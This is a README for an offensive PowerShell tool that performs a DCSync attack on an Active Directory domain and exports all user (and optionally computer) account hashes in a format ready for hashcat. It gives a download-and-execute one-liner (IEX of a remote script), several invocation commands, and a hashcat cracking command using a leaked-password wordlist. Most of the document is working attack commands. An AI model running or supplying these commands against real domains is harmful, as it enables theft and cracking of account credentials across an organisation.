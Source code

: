 # DCSync-To-hashcat
Performs DCSync and extracts all user accounts hashes in a hashcat friendly format

### Load into memory:
```
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/The-Viper-One/DCSync-To-Hashcat/main/DCSync-To-Hashcat.ps1)
```
### Commands:
```
Invoke-DCSyncTH                          # Run with default options
Invoke-DCSyncTH -ComputerHashes -Y       # Include computer accounts
Invoke-DCSyncTH -OutputToFile -Y         # Output hashes to file. Defaults to $HOME\Hashcat_Final.txt 
```
### Sample Output
![image](https://user-images.githubusercontent.com/68926315/226433487-431a26e1-9b8a-46b6-af31-ea879b8bca6b.png)

### hashcat cracking
The results can be copied over to file and run againt Hashcat
```
hashcat -a 0 -m 1000 hashes.txt Wordlists/rockyou2021.txt
```
